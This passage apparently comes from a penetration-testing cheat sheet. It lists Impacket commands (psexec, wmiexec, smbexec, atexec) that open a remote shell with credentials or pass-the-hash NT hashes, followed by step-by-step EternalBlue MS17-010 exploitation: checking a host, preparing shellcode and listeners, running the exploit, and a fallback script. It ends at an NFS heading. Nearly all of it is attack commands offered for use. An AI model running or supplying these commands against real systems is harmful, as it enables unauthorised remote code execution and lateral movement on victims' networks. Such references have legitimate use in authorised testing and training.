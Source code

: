 ### Get a shell

```
psexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
psexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
wmiexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

smbexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
smbexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

atexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP> <COMMAND>
atexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>
```

### EternalBlue

```
https://github.com/3ndG4me/AutoBlue-MS17-010
```

#### Check if vulnerable

```
python eternal_checker.py <IP>
```

#### Prepare shellcodes and listeners

```
cd shellcode
./shell_prep.sh
cd ..
./listener_prep.sh
```

#### Exploit

```
python eternalblue_exploit<NUMBER>.py <IP> shellcode/sc_all.bin
```

### If this doesn't work, try this one

```
python zzz_exploit.py <IP>
```

------

## NFS - 2049

### Show Mountable NFS Shares
